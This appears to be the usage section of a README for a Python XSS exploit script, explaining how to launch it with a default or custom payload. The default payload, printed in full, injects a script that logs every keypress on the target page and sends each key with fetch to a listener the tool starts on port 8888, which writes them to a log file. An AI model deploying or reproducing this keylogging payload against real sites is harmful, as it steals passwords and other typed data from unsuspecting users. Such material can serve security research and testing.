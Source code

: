 # **Exploitation Steps**

The python exploit can be launched either with one or zero parameter, the latter if specified will define a payload for the XSS Injection.

Usage:

- **Default Payload**
~~~
python3 exploit.py
~~~

This Javascript payload hardcoded in the exploit:
~~~
"><script>document.onkeydown=function(event){fetch('http://localhost:8888/data?letter='+encodeURIComponent(event.key))}</script>
~~~

implements the functionalities of a keylogger by collecting all the users keyboard inputs and sending them to a remote server (http://localhost:8888 in this case)

</br>

- **Custom Payload** (must be inserted between single quotes)
~~~
python3 exploit.py '"><script>alert("This is a custom payload")</script>'
~~~

</br>

If the script is using the default payload, it will also start an **HTTP Server on port 8888**, make sure it is available to prevent conflicts.
Additionally keys pressed by users will be stored in a file named **log_output.txt**